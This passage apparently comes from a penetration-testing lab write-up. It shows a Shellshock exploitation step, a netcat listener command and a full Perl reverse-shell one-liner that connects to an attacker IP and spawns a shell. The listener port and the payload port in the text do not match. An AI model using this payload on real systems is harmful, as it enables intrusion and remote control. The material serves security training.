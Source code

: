 We are prompted to choose whether or not to further exploit the url we previously entered. Follow these steps to continue:

1. select 1 
2. press enter.

Now we start our netcat listener on our attacker machine (in a separate terminal):

```bash
nc -lvnp 4321
```

Now we can return to our shellshock prompt and enter a reverse shell payload targeting the use of perl:

```bash
/usr/bin/perl -e 'use Socket;$i=\"10.10.14.12\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"sh -i\");};'
```

![x](screenshots-storage/shell1-payload.png)

Checking out listener, we recive a low-privileged shell:

![x](screenshots-storage/pop-shelly-shell.png)

**Local.txt Proof Screenshot**

![x](screenshots-storage/local.txt-contents.png)
